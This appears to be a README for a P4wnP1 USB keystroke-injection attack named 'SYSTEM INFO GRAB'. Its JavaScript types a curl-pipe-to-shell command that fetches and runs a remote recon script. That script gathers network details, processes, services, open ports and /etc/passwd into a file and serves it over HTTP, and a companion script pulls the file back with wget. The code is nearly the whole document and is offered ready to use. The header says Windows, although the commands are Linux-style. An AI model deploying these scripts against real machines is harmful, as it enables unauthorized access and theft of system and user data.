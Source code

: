 # SYSTEM INFO GRAB
This script has been written in javascript adapted to P4wnP1 language in order to be ran in a Windows desktop environment

# Script
### Javascript
```js
layout('es');
typingSpeed(10)

press("CONTROL ALT t")
type("curl -s http://172.16.0.1:8888/recon.sh | sh")
press("ENTER")
press("ALT TAB")
```
### Recon.sh
```sh
#!/bin/bash

FILE="/tmp/all.txt"

touch $FILE

echo "########## IP's" >> $FILE
ip a >> $FILE
echo "" >> $FILE

echo "########## PROCESSES" >> $FILE
ps aux >> $FILE
echo "" >> $FILE

echo "########## INTERFACES" >> $FILE
netstat --interfaces >> $FILE
echo "" >> $FILE

echo "########## ROUTES" >> $FILE
netstat --route >> $FILE
echo "" >> $FILE

echo "########## SERVICES" >> $FILE
service --status-all >> $FILE
echo "" >> $FILE

echo "########## USERS" >> $FILE
cat /etc/passwd | sort >> $FILE
echo "" >> $FILE

echo "########## PORTS" >> $FILE
for port in $(cat /proc/net/tcp | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u); do
    echo "[$port] -> $(echo "ibase=16; $port" | bc)" >> $FILE
done
echo "" >> $FILE

timeout 6 python3 -m http.server 8123 --directory /tmp

rm /tmp/all.txt
```

### Send_receive.sh
```sh
#!/bin/bash

timeout 6 python3 -m http.server 8888

wget http://172.16.0.2:8123/all.txt
```
